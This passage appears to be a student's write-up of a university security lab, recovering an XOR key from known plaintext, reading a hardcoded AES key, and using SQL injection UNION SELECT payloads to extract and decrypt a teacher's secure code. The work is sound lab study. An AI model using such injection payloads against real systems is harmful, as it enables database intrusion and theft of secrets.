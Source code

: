 Index.php source tells us that xor key has this format `kbe_REPLACE_xor_key_2021` and REPLACE substring is 4 characters long. 


We can just do `xored_message ^ plain_message` to get the key beacuse of following properties: 
"""
k ^ m     = c
k ^ m ^ m = c ^ m
k ^ 0     = c ^ m
k         = c ^ m 
""

This python code does the job for us and finds the REPLACE substring
"""python
>>> from base64 import b64decode
>>> msg = b"Welcome <b>repamart</b>, this is your first secret message."
>>> xored_b64 = b"PAcJPFkOURRjGlEAOhsEFD5ARA4eCVxJf0ILXUd/ERxSJgQQC39UWUBCH0IWOlURUUB/FQoBLAoCHHE="
>>> ''.join([chr(x^y) for x,y in zip(msg[4:8], b64decode(xored_b64)[4:8])])
6c44
"""

Also, another approach and verification is by generating the key as was originaly done in the php script:
"""python
>>> import hashlib
>>> hashlib.sha1(b"repamart" + b"kbe_REPLACE_xor_key_2021").hexdigest()[:4]
6c44
"""

Ergo, the key is `kbe_6c44_xor_key_2021`

## [BONUS :hurtrealbad:] Task 10: Find out key used for encoding secure codes

Defined in already discussed `php.script`

"""php
define("AES_ENCRYPT_CODE_KEY", "iHw35UKAPaSYKf8SI44CwYPa");
"""

## [BONUS :feelsgood:] Task 11: Steal Martin Rehak's secure code

We don't see Martin Rehak among exfiltrated users. After some time I found his record in `code` table. 

"""
https://kbe.felk.cvut.cz/index.php?offset=1 UNION ALL SELECT aes_encrypt_code, 1 FROM codes where username 'rehakmar'; #
"""

Ecrypted code looks like this `E3BCC1C2ACBDA02B07A04D576ED0BE9DE52286F0102DD8DC83BC839790862352`. Used key and used cipher is located in previously discovered php script. We're dealing with AES and key `iHw35UKAPaSYKf8SI44CwYPa`. My personal tries to decrypt the code failed - including Python scipt and cyberchef utility. However, we can use already running sql engine within the application for decryption like this:
"""
https://kbe.felk.cvut.cz/index.php?offset=1 UNION ALL SELECT AES_DECRYPT(UNHEX(aes_encrypt_code), "iHw35UKAPaSYKf8SI44CwYPa"), 1 FROM codes where username = "rehakmar"; #
"""

and we get teacher's code `scorpion-ask-milk-sunny`

